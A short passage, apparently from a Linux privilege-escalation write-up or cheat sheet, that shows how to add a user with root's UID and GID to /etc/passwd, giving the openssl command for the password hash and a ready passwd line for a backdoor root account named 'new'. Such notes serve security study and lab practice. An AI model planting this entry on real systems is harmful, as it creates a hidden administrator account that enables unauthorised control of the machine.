 We can add an etnry to the /etc/passwd file and give us a UID and GUID of the root user.
To generate a hashed password: 
```openssl passwd -1 -salt \[salt\] \[password\]```
<br>
**The entry for the user  "new":**
``new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash``